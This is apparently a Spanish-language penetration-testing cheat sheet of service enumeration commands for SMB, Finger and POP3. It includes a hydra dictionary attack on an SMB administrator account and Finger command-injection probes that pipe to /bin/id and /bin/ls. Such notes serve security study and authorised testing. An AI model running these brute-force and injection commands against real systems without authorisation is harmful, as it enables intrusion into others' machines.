 Listado de archivos de un servidor SMB.  

{% highlight markdown %}
smbclient -L //INSERTIPADDRESS/
{% endhighlight %}     

{% highlight markdown %}   
---------------------
-- COMANDOS UTILES --
---------------------
smbclient \\\\10.10.10.59\\ACCT
{% endhighlight %}     

**Ataque de diccionario hacia el servicio de SMB**  

{% highlight markdown %}
hydra -l administrator -P pass.txt IP smb
{% endhighlight %}     

**Archivos de configuracion relacionados a SMB**  
  - Smb.conf  
  - lmhosts

## Enumerando Finger

Descargar el siguiente script para enumerar este servicio:  
http://pentestmonkey.net/tools/user-enumeration/finger-user-enum

{% highlight markdown %}
---------------------
-- COMANDOS UTILES --
---------------------
finger 'a b c d e f g h' @example.com
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
finger @example.com
{% endhighlight %}     

**Probando Ejecucion de comandos**  

{% highlight markdown %}
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
{% endhighlight %}     

## Enumerando POP3

{% highlight markdown %}
---------------------
-- COMANDOS UTILES --
---------------------
telnet INSERTIPADDRESS 110
Ingresa tu usuario [username]
Ingresa tu contraseña [password]
- Despues de iniciar sesion. -

list
- El comando anterior lista los mensajes. -
{% endhighlight %}      
